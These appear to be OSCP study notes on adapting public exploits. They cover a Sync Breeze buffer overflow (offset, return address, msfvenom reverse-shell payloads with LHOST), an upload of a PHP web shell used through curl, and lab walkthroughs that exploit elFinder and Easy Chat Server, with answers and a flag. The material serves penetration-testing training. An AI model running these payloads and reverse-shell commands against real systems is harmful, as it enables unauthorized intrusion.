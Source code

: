 
#### 13.1. Fixing Memory Corruption Exploits

###### 13.1.1. Buffer Overflow in a Nutshell


###### 13.1.2. Importing and Examining the Exploit

1.  Searching for available exploits for our vulnerable software using searchsploit
```
searchsploit "Sync Breeze Enterprise 10.0.28"
```

2. Sync Breeze 10.0.28 Exploit's Summary
```
offset    = "A" * 780 
JMP_ESP   =  "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```

3. String concatenation example in Python
```
kali@kali:~$ python
...
>>> string1 = "This is"
>>> string2 = " a test"
>>> string3 = string1 + string2

>>> print(string3)
This is a test
```

###### 13.1.3. Cross-Compiling Exploit Code

1. Installing the mingw-w64 cross-compiler in Kali
```
sudo apt install mingw-w64
```

2. Errors displayed after attempting to compile the exploit using mingw-64
```
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x97): undefined reference to `_imp__WSAStartup@8'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xa5): undefined reference to `_imp__WSAGetLastError@0'
```

3.  Successfully compiling the code after adjusting the mingw-w64 command to link the winsock library
```
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ ls -lah
total 372K
drwxr-xr-x  2 root root 4.0K Feb 24 17:13 .
drwxr-xr-x 17 root root 4.0K Feb 24 15:42 ..
-rw-r--r--  1 root root 4.7K Feb 24 15:46 42341.c
-rwxr-xr-x  1 root root 355K Feb 24 17:13 syncbreeze_exploit.exe
```

4. Identifying the code lines responsible for the IP address and port
```
printf("[>] Socket created.\n");
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```

*Lab Exercise*
1. All answer in theory. 

###### 13.1.4. Fixing the Exploit

1. Changing the return address 
```
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```
2. Using msfvenom to generate a reverse shell payload that fits our environment
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
3. Compiling the modified exploit code using mingw-64
```
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
ls -lah
```
4. Running the Windows exploit using wine
```
sudo wine syncbreeze_exploit.exe
```

###### 13.1.5. Changing the Overflow Buffer
Not important. 

#### 13.2. Fixing Web Exploits

###### 13.2.1. Considerations and Overview

###### 13.2.2. Selecting the Vulnerability and Fixing the Code
Follow the exploit changing method and execute accordingly. 

*Lab Exercise*
All answer are in walkthrough and exploit code. 

###### 13.2.3. Troubleshooting the "index out of range" Error

1. Python string split method
```
kali@kali:~$ python
...
>>> mystr = "Kali*-*Linux*-*Rocks"

>>> result = mystr.split("*-*")

>>> result
['Kali', 'Linux', 'Rocks']

>>> result[1]
'Linux'
```
2. Understanding the code  and Adding a print statement to see the string where the split method is invoked on
```
print "[+] String that is being split: " + location
```
3. Inspecting the print output and noticing the absence of the string defined in the csrf_param variable
```
python2 44976_modified.py
```
4.  Changing the csrf_param variable
```
csrf_param = "_sk_"
```
5. Successful exploitation output and Verifying if our exploit was successful by trying to execute whoami using the uploaded php shell
```
kali@kali:~$ curl -k https://192.168.50.45/uploads/shell.php?cmd=whoami
www-data

```


*Lab Exercise*
1. Check out walkthrough code. 
2. Walkthrough 
```
1. Create payload accordings which is OSCP/13/44967_m.py 
2. Run payload. python2 44967_m.py
3. curl -k https://192.168.50.45/uploads/shell.php?cmd=cat%20/home/flag.txt
```
3. Walkthrough
```
HINTS
    Use directory-list-2.3-small.txt wordlist and give it some time.
    Some fake sample files will be needed for the exploit.
    Execute the exploit using python2 and provide the found application base address.

1. Find out the /sec directory using gobuster. 
gobuster dir -u http://192.168.244.46/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

2. Check out elFinder exploits. 
└─$ searchsploit elFinder
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
elFinder 2 - Remote Command Execution (via | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command  | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftra | php/remote/46539.rb
------------------------------------------- ---------------------------------
Shellcodes: No Results

3. Download 46481.py and the create image using convert. 
┌──(kali㉿kali)-[~/OSCP/13]
└─$ convert -size 32x32 xc:white SecSignal.jpg

4. Execute it and get shell and flag. 
┌──(kali㉿kali)-[~/OSCP/13]
└─$ python2 46481.py http://192.168.244.46/seclab/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat flag.txt
OS{ec656d46a580df3acf9c771929a43537}
```
4. Walkthrough
```
HINTS
    Set the correct stageless/staged payload to catch the reverse shell.
    Don’t remove the NOP sled in the shellcode from the original exploit.
    There could be various versions of the exploit, but at least one of them should be effective.

1. nmap -T4 -A 192.168.244.213, Easy Chat Server exploit 50999.py
2. msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.195 LPORT=4444 -f python -b "\x00\x20" -v shellcode
3. Add hex values in exploit. 
4. Recieve reverse shell. 
```
#### 13.3. Wrapping Up